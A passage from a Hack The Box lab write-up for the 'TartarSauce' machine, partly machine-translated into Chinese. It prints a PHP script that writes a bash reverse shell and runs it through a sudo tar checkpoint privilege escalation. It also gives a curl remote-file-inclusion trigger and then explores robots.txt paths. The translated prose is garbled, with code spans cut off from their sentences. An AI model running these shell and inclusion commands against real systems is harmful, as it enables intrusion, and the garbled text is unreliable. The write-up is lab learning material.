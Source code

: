 
## Beyond Root

### Shortcut Shell as onuma

In case I ever wanted to come back to this box and pick up with a shell as onuma, this alternative php script will provide a reverse shell as onuma.

    root@kali:~/hackthebox/tartarsauce-10.10.10.88# cat awp-load.php
    <?php
    system("echo '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.5/8082 0>&1' > /dev/shm/.a.sh");
    system("cd / && sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=\"bash /dev/shm/.a.sh\"");
    ?>
    

该脚本只是让 php 系统命令执行上面 privesc 中所示的步骤，编写一个 shell 脚本，将其放入 tar 存档中，然后使用它来运行它。`sudo tar`

因此，要使其正常工作，只需在 8082 上启动，然后运行 。`python3 -m http.server 80``nc``curl -s http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.15.99/a`

### 兔子洞：蒙斯特拉CMS

作者的另一个超级巨魔举动是添加一个包含多个有趣站点的文件，其中一个站点存在，并且具有针对它的RCE漏洞，但是，它们都不能工作。以下是我如何探索它，以及为什么漏洞利用不起作用。`robot.txt`

#### 机器人.txt

`nmap`调用具有几个有趣站点的文件的存在：`robots.txt`

    User-agent: *
    Disallow: /webservices/tar/tar/source/
    Disallow: /webservices/monstra-3.0.4/
    Disallow: /webservices/easy-file-uploader/
    Disallow: /webservices/developmental/
    Disallow: /webservices/phpmyadmin/
    

我将使用一个快速 bash 循环来获取不允许的条目，获取 url 路径，并循环访问它们，每个回显一个标题行，然后发出一个 curl 来获取它们。在五个 URL 中，只有一个不返回 404 未找到错误：

    root@kali:~/hackthebox/tartarsauce-10.10.10.88# curl -s 10.10.10.88/robots.txt | tail -6 | head -5 | cut -d' ' -f2 | while read p; do echo ===${p}===; curl -s 10.10.10.88${p} | head; echo; done
    ===/webservices/tar/tar/source/===
    <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
    <html><head>
    <title>404 Not Found</title>
    </head><body>
    <h1>Not Found</h1>
    <p>The requested URL /webservices/tar/tar/source/ was not found on this server.</p>
    <hr>
    <address>Apache/2.4.18 (Ubuntu) Server at 10.10.10.88 Port 80</address>
    </body></html>
    
    ===/webservices/monstra-3.0.4/===
    <!DOCTYPE html>
    <html lang="en">
    <head>
    <meta charset="utf-8">
    <meta http-equiv="x-dns-prefetch-control" content="on">
    <link rel="dns-prefetch" href="/webservices/monstra-3.0.4" />
    <link rel="dns-prefetch" href="//www.google-analytics.com" />
    <title>TartarSauce - Home</title>
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta name="description" content="Site description">
    